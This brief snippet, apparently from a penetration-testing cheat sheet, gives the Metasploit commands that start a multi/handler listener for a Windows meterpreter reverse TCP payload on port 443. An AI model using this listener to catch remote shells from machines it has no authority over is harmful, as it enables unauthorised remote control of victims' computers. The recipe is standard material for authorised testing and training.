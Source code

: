 Start meterpreter listener for a Windows payload
------------------------------------------------
```bash
use exploit/multi/handler 
set PAYLOAD windows/meterpreter/reverse_tcp 
set LHOST xxx.xxx.xxx.xxx
set LPORT 443
exploit
```
